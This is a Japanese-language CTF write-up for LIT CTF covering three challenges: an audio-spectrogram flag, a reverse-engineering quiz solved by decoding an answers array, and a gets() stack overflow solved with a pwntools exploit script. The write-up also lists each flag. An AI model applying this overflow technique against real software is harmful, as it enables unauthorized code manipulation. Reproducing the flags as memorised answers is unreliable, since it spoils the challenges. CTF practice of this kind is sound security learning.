

# LIT CTF

https://lit.lhsmathcs.org/

- [misc/kirby!!!](##misc/kirby!!!)
- [rev/math](##rev/math)
- [pwn/save_tyger](##pwn/save_tyger)

## misc/kirby!!!

Kirby is so cool! (Wrap your flag in LITCTF{})

The beginning is very loud so you should turn down your volume.

https://vocaroo.com/12wR27kejDYj

Original song: Green Grounds from Kirby Mass Attack

### SOLUTIONS

Audacityで配布されたmp3ファイルを開き、スペクトラムを見るとフラグが書かれていました。



### FLAG

```
LITCTF{K1RBY1SCOOL!}
```

## rev/math

### Description

### SOLUTIONS

与えられた実行ファイルを実行すると、クイズが始まりました。終盤には「Question #7: What number am I thinking of?」とナゾナゾが始まり、すなおにバイナリを読みました。

grade_test関数で、入力と答えを比較している箇所があったため、answerという配列を見ればよいと判断しました。

```c
void grade_test(void)
{
  int local_10;
  uint local_c;
  
  local_c = 0;
  for (local_10 = 0; local_10 < NUM_Q; local_10 = local_10 + 1) {
    if (*(long *)(submitted + (long)local_10 * 8) == *(long *)(answers + (long)local_10 * 8)) {
      local_c = local_c + 1;
    }
  }
  printf("You got %d out of 10 right!\n",(ulong)local_c);
  if (local_c == 10) {
    puts("Wow! That\'s a perfect score!");
    puts("Here\'s the flag:");
    generate_flag();
  }
  else {
    puts("If you get a 10 out of 10, I will give you the flag!");
  }
  return;
}
```

answerのデータが以下の通りとなっています。先頭から8バイトずつ見ればよいため、順番にデコードしました。

```c
00000000: 02 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00  ................
00000010: f0 00 00 00 00 00 00 00 03 00 00 00 00 00 00 00  ................
00000020: 6d 8d de 09 00 00 00 00 0a 00 00 00 00 00 00 00  m...............
00000030: 87 15 59 00 00 00 00 00 49 1e a1 06 00 00 00 00  ..Y.....I.......
00000040: 5f e9 60 20 00 00 00 00 09 00 00 00 00 00 00 00  _.` ............
00000050: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
```

ソースコードが以下の通りです。

```python
import struct

def decode_bin(input):
  # q: 8 byte
  print(struct.unpack('q',input))

data = [b'\x02\x00\x00\x00\x00\x00\x00\x00',
        b'\x04\x00\x00\x00\x00\x00\x00\x00',
        b'\xf0\x00\x00\x00\x00\x00\x00\x00',
        b'\x03\x00\x00\x00\x00\x00\x00\x00',
        b'\x6d\x8d\xde\x09\x00\x00\x00\x00',
        b'\x0a\x00\x00\x00\x00\x00\x00\x00',
        b'\x87\x15\x59\x00\x00\x00\x00\x00',
        b'\x49\x1e\xa1\x06\x00\x00\x00\x00',
        b'\x5f\xe9\x60\x20\x00\x00\x00\x00',
        b'\x09\x00\x00\x00\x00\x00\x00\x00',
]
for i in data:
  decode_bin(i)
"""
実行結果
(2,)
(4,)
(240,)
(3,)
(165580141,)
(10,)
(5838215,)
(111222345,)
(543222111,)
(9,)
"""
```

出てきた値を順番に当てはめるとフラグが出てきました。

```bash
./math
Welcome to the math test. If you get a perfect score, I will print the flag!
All questions will have non-negative integer answers.

Question #1: What is 1+1?
2
Question #2: How many sides does a square have?
4
Question #3: What is 8*30?
240
Question #4: What is the remainder when 39 is divided by 4?
3
Question #5: What is the 41st fibbonaci number?
165580141
Question #6: How many questions are on this test?
10
Question #7: What number am I thinking of?
5838215
Question #8: What is the answer to this question?
111222345
Question #9: Prove that the answer to the previous question is correct.
543222111
Question #10: Give me an integer.
9
You got 10 out of 10 right!
Wow! That's a perfect score!
Here's the flag:
LITCTF{y0u_must_b3_gr8_@_m4th_i_th0ught_th4t_t3st_was_imp0ss1bl3!}
```

### FLAG

```
LITCTF{y0u_must_b3_gr8_@_m4th_i_th0ught_th4t_t3st_was_imp0ss1bl3!}
```

### REF

https://qiita.com/Gyutan/items/7939a723c117c8ebbe5f#struct-%E3%83%A2%E3%82%B8%E3%83%A5%E3%83%BC%E3%83%AB


## pwn/save_tyger
### SOLUTIONS

getsによる変数`pass`の書き換えが狙えそうです。

```c
#include <stdlib.h>
#include <stdio.h>

char flag[64];

int main(){
	long pass;
	char buf[32];
	pass = 0;
	printf("Oh no, someone stole our one and only Tyger! :noo:\n");
	printf("Would you help us save him?\n");
	gets(buf);
	if(pass == 0xabadaaab){
		printf("It worked!\n");
		FILE *f = fopen("flag.txt", "r");
		if(f == NULL){
			printf("Something went wrong. Please let Eggag know.\n");
			exit(1);
		}
		fgets(flag, 64, f);
		puts(flag);
	}
	else printf("WE NEED HIM BAAACK!\n");
}
```

リトルエンディアンであることを考慮して、A埋めをするとA40個 + `\xab\xaa\xad\xab`を送ると良さそうです。

```python
from pwn import *

binfile = "./save_tyger/save_tyger"
context.binary = binfile
elf = ELF(binfile)
conn = remote('litctf.live', 31786)


payload = b'a' * 40
payload += p64(0xabadaaab)
conn.recvuntil(b'Would you help us save him?\n')
conn.sendline(payload)

r = conn.interactive()
print(r)
```

```bash
[*] 'save_tyger/save_tyger'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to litctf.live on port 31786: Done
[*] Switching to interactive mode
It worked!
LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}
```

### FLAG

```
LITCTF{y4yy_y0u_sav3d_0ur_m41n_or94n1z3r}
```
